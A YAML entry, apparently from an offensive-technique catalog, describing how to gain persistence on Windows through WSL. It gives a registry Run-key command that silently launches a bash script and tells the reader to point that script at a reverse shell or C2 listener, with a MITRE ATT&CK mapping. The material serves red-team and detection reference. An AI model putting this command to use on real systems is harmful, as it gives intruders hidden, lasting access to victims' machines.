 ```yaml
---
Name: Windows Subsystem for Linux (WSL)
Description: WSL gives users and developers a seemless way to run Linux environments in the Windows operating system without virtual machines or dual booting.
Author: 'Joe Helle'
Created: 2023-01-29
Usage:
  - Steps: reg add “HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run” -v screendoor /t REG_SZ /d '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exewindowstyle hidden -c wsl --exec bash /home/themayor/temp.sh"'
    Description: Identify WSL or WSL2 functionality on a Windows 10 or 11 endpoint. This can be achieved by running 'where wsl' in a Command Prompt. Once identified, the command 'wsl' can be ran in either a Command Prompt or PowerShell terminal to load into the default Linux environment. Locate a suitable directory and generate a reverse shell that points to a listener or other C2 server. Backing out to the regular Command Prompt/PowerShell terminal, generate an Autorun registry edit. Start the reverse shell or C2 server listener. Run the command and wait for the system to reboot.
    Usecase: Establishing persistence on a Windows host
    Category: Persistence
    Privileges: User
    Limitations: System must have Windows Subsystem for Linux installed, and the current Windows user must be able to make edits to the Registry.
    MitreID: T1547.001
Resources:
  - Link: https://medium.themayor.tech/windows-persistence-using-wsl2-8f87e319ea56
Acknowledgement:
  - Person: Joe Helle
  - Handle: '@joehelle'
---
```

